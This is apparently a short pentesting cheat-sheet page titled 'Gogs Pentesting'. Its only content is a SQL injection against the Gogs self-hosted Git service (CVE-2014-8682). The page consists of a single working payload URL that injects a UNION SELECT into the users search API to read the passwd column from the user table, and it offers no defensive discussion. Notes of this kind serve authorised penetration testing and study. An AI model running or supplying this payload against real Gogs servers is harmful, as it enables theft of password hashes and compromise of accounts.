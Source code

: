 ```yaml
---
title: Gogs Pentesting
description: Gogs (Go Git Service) is a painless self-hosted Git Service.
tags:
    - SQL Injection
    - Web
refs:
date: 2022-12-22
draft: false
---
```


## SQL injection ([CVE-2014-8682](https://www.exploit-db.com/exploits/35238))

```txt
http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,1,(select/**/passwd/**/from/**/user),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1--
```
